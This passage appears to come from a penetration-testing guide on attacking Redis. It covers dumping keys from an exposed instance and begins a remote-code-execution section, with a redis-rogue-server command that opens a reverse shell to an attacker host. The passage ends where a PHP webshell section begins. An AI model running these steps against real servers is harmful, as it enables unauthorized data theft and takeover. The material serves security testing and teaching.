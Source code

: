 Or you can just get all the **keyspaces** (databases) with:

```
INFO keyspace
```

In that example the **database 0 and 1** are being used. **Database 0 contains 4 keys and database 1 contains 1**. By default Redis will use database 0. In order to dump for example database 1 you need to do:

```bash
SELECT 1
[ ... Indicate the database ... ]
KEYS *
[ ... Get Keys ... ]
GET <KEY>
[ ... Get Key ... ]
```

In case you get the following error `-WRONGTYPE Operation against a key holding the wrong kind of value` while running `GET <KEY>` it's because the key may be something else than a string or an integer and requires a special operator to display it.

To know the type of the key, use the `TYPE` command, example below for list and hash keys.

```bash
TYPE <KEY>
[ ... Type of the Key ... ]
LRANGE <KEY> 0 -1
[ ... Get list items ... ]
HGET <KEY> <FIELD>
[ ... Get hash item ... ]

# If the type used is weird you can always do:
DUMP <key>
```

**Dump the database with npm**[ **redis-dump**](https://www.npmjs.com/package/redis-dump) **or python** [**redis-utils**](https://pypi.org/project/redis-utils/)

## Redis RCE

### Interactive Shell

[**redis-rogue-server**](https://github.com/n0b0dyCN/redis-rogue-server) can automatically get an interactive shell or a reverse shell in Redis(<=5.0.5).

```
./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>
```

### PHP Webshell

Info from [**here**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). You must know the **path** of the **Web site folder**:

